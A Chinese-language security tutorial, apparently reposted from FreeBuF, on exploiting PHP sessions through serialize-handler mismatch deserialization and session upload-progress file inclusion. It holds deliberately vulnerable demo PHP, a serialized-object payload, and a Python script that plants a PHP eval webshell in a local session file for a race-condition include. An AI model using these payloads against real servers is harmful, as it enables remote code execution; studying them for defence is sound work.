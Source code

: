 #  PHP中的session漏洞利用   
 船山信安   2025-05-26 01:47  
  
## 前言  
  
同样是以前在学习PHP安全相关的时候，针对php中session的利用。  
## session反序列化  
### session的存储机制  
- php  
```
<?php
error_reporting(0);
echo "serialize_handler: ".ini_get("session.serialize_handler")."<br />";
echo "path: ".ini_get("session.save_path");
ini_set("session.serialize_handler", "php");
session_start();
$_SESSION['username'] = $_GET['username'];
?>

```  
  
username|s:3:"asd";  
  
键名+ | + 序列化之后的数据  
  
- php_serialize  
  
a:1:{s:8:"username";s:3:"asd";}  
  
直接将这个session数据进行序列化  
  
- php_binary  
键名的长度对应的ASCII字符 ＋ 键名 ＋ 经过 serialize() 函数反序列处理的值  
  
### 利用  
  
如果 PHP 在反序列化存储的 SESSION 数据时使用的处理器和序列化时使用的处理器不同，可能会导致数据无法正确反序列化，经过构造甚至可以执行代码。  
#### 实例  
  
一个用于存储session的代码  
```
?php
error_reporting(0);
echo "serialize_handler: ".ini_get("session.serialize_handler")."<br />";
echo "path: ".ini_get("session.save_path");
ini_set("session.serialize_handler", "php_serialize");
session_start();
$_SESSION['username'] = $_GET['username'];
?>

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOoZJJPtPIAHuosvh5W938xOTRbAx6Mmw1O21rnkfqbxfLd4mTiakib97uVknWzLzz2jIm7VqNvItLA/640?wx_fmt=png&from=appmsg "")  
  
一个用于访问session的代码  
```
<?php
error_reporting(0);
ini_set("session.serialize_handler", "php");
echo ini_get("session.serialize_handler")."<br/>";
session_start();
class test {
	public $name = "wrong";

	function __wakeup(){
		echo "this is __wakeup";
	}
	function __destruct(){
		echo "I am ".$this->name;
	}
}
$str = new test();
?>

```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOoZJJPtPIAHuosvh5W938xjzrdMB6icc01ojza7ibqwcnYHibU0Mibaicnc8Sd0WNNOic6Gx6qBqGiaMnyQ/640?wx_fmt=png&from=appmsg "")  
  
构建payload:  
```
<?php
class test {
    public $name = "wrong";

    function __wakeup(){
        echo "this is __wakeup";
    }
    function __destruct(){
        echo "I am ".$this->name;
    }
}
$str = new test();
$str->name = "true";
echo serialize($str);
?>

```  
  
O:4:"test":1:{s:4:"name";s:4:"true";}  
  
如果将他在前面加上|  
传入session中，因为存储用的引擎是php_serialize  
，会将这个sessIon数组序列化，然而在class.php  
中访问session使用的是php  
引擎，会把我们payload上添加的|  
前认为键，payload认为是需要反序列化的数据  
  
存入的session文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicOoZJJPtPIAHuosvh5W938x3GSksmfndoibcmfPP7ZxSsCBcibvJ9ibW4TtrRVvTVnsRtv1LKoHUPHgA/640?wx_fmt=png&from=appmsg "")  
  
访问class.php  
  
成功反序列化  
## session文件包含  
  
session.upload_progress.enabled可以控制是否开启session.upload_progress功能  
  
session.upload_progress.cleanup可以控制是否在上传之后删除文件内容  
  
session.upload_progress.prefix可以设置上传文件内容的前缀  
  
session.upload_progress.name的值即为session中的键值  
### 实例  
  
test.php  
```
<?php
ini_set("session.upload_progress.enabled","On");
ini_set("session.upload_progress.cleanup","On")
$a = $_GET['a'];
include($a);
?>

```  
  
之后通过一个python脚本创建自定义的session文件  
```
import requests
import io
url = "http://127.0.0.1:8000/test1.php"
sessid = "Lxxx"


def write(session):
   filebytes = io.BytesIO(b'a' * 1024 * 50)
   while True:
       res = session.post(url,
           data={
               'PHP_SESSION_UPLOAD_PROGRESS': "<?php eval($_POST[1]);?>"
              },
           cookies={
               'PHPSESSID': sessid
              },
           files={
               'file': ('Lxxx.jpg', filebytes)
              }
          )


if __name__ == "__main__":
   with requests.session() as session:
       write(session)

```  
  
但是在他生成这个session之后就立马删除了，我们通过竞争读取这个文件内容  
  
有两块内容：  
- 第一块：  
  
upload_progress_  
  
这一块内容由以下两个值组成：session.upload_progress.name  
+PHP_SESSION_UPLOAD_PROGRESS  
  
- 第二块  
  
就是一串序列化的数据  
  
首先，函数write和上面的是一样的，这里就不做过多的赘述了  
  
整个代码的思路就是，往/tmp/sess_Lxxx文件中写入一句话木马，密码为1，然后用题目中的文件包含漏洞，包含这一个文件，在函数read中尝试利用/tmp/sess_Lxxx的一句话往网站根目录文件1.php写一句话木马，密码为2  
  
利用Python的多线程，一边上传文件，一边尝试往根目录中写入1.php，如果成功写入了，就打印输出“成功写入一句话”  
  
这里利用Python的threading模块，开5个线程进行条件竞争  
  
来源：  
https://www.freebuf.com/ 感谢【  
RoboTerh】  
  
